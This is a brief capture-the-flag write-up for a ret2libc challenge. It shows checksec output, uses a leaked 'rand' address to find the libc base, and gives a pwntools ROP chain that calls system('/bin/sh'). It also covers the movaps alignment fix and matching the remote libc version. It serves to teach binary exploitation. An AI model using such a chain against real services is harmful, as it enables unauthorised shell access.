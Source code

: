 # RET2LIBC

## Solution


Initially from the binary I can see that there is No PIE
```
/root/workspace/ret2libc/chal.bin
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
When I run the binary on its own, I notice that there is a leaked address for the function 'rand' present. This gives me a very easy way of calculating the offset of libc.

However, when looking for gadgets, I notice that there are no 'pop rdi' gadgets present in the binary. This is not that big of a deal because we can just use the libc gadgets.

```
chain = cyclic(16)
chain += p64(rlibc.find_gadget(['ret'])[0])
chain += p64(rlibc.find_gadget(['pop rdi','ret'])[0])
chain += p64(next(libc.search(b'/bin/sh')))
chain += p64(libc.sym['system'])
```

One problem that I encountered was 'movaps' which was an easy solve by adding an extra 'ret' gadget. 

To perform this remotely, I had to use the address of the remote 'rand' function. I had to look up the offsets on the libc database and then had to try out the different versions of libc that had 'rand' at this offset. Once I found the correct version, I would load this version locally to perform the attack remotely.